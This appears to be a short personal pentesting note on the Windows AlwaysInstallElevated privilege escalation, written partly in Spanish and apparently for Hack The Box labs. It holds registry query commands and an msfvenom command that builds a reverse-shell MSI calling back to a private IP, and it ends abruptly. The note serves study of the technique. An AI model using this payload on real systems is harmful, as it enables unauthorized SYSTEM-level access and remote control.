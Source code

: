 ## DESCRIPTION

**If** these 2 registers are **enabled** (value is **0x1**), then users of any privilege can **install** (execute) `*.msi` files as NT AUTHORITY\**SYSTEM**.

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![[Pasted image 20230629205600.png]]
#### Mas información
* https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated


## EXPLOITATION

1. Creamos una reverse shell .msi

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.220 LPORT=4444 -f msi -o shell.msi 
```

2. La transferimos a la maquina y ejecutamos

![[Pasted image 20230629210004.png]]

## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 